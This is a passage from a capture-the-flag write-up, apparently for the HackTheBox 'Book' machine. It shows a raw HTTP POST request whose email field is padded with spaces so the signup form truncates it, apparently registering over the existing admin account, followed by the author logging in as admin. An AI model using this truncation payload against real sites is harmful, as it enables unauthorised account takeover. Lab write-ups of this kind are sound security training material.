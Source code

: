 ```text
POST /index.php HTTP/1.1
Host: 10.10.10.176
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.176/index.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 91
Connection: close
Cookie: PHPSESSID=630fii00brfacrkgee7jom2p4d
Upgrade-Insecure-Requests: 1
DNT: 1

name=admin&email=admin%40book.htb                                    test&password=!AmA$up3r@dmin!!!
```

Thinking that my password choice had perhaps been a bit too weak, I went back and used `!AmA$up3r@dmin!!!` as a password rather than something super-overly-simplistic in order to prevent other users from accidentally stumbling upon the admin account without learning anything about the proper attack. 

![](../../.gitbook/assets/11.5-signedin-admin.png)

I then logged in using my shiny new admin password and started looking around.  Nothing seemed to be different in this account other than the username I was logged in as.  

![](../../.gitbook/assets/12-submission.png)
